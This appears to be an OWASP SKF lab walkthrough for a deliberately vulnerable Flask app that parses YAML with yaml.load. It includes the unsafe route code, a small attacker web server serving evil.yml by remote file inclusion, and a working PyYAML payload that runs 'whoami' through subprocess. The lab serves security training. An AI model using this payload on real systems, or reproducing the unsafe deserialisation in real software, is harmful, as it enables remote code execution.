





# KBID 271 - Deserialisation Yaml

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```


 Now that the app is running let's go hacking!


## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```


 Now that the app is running let's go hacking!



## Reconnaissance

#### Step1

This application is using a .yaml file to use the content and display the content in the HTML. As you can see below the default .yaml file that is used on the server "file.yaml" and the contents of this file.  



In the content of the .yaml file you can see it uses a key value pair -&gt; foo : value  
Also we can have a look at the documentation of the Python implementation for the .yaml file here:



The application works by loading the URL as seen in the application and will use the default "file.yaml" to be processed by the application and parse the key value to display the content in the application as shown below.



In the code example the "file" parameter is used to read the file from the filesystem but as you can see this is under the users control. Then this file is being used in the yaml.load method to parse the file and retrieve the value from it. Instead of just reading the intended text files from the file system, a potential attacker could abuse this function to also supply his own crafted yaml file that the attacker controls.

```python
@app.route("/information/&file=<path:filename>", methods=['GET'])
def deserialization(filename):
     print(filename, file=sys.stdout)
     if filename == 'file.yml':
         with open(filename, 'rb') as handle:
            if filename == 'file.yml':
                # Import the PyYAML dependency
                with open(filename) as yaml_file:
                # Unsafely deserialize the contents of the YAML file
                    content = yaml.load(yaml_file)
```

## Exploitation

#### Step1

A potential attacker can now tamper the "file" parameter to be able to supply his own .yaml file and that will be parsed by the application. For doing this type of attack we need to perform a Remote File Inclusion \(RFI\) attack. Its a similair attack as the Local File Inclusion \(LFI\) only instead of loading the files from the server \(local\) we going to load the files remote \(our webserver\). First we need to create a test.yaml file in our webserver and load this by the application.

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.yml")
def start():
    return render_template("evil.yml")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

In the above code example we can run our own webserver using Python Flask en we can render our evil.yml file and make it available to be included. For the evil.yml we will use the same key value object as in the example of the applciation.

```yaml
foo: woop woop
```

Now we have prepared our webserver and our evil.yml file we can try to have it loaded and parsed by the application.



As you can see our setup for performing a RFI attack works and we can now let the application parse our files. Now lets try to create one with more dangerous characters that can trigger a parser error, for example.

```yaml
foo: !!lala'.,<>
```



The parser returned an error and was not able to parse our dangerous characters in our supplied file.  
When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
foo: !!python/object/apply:subprocess.check_output ['whoami']
```



Now when we used the new evil file we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

## Additional sources



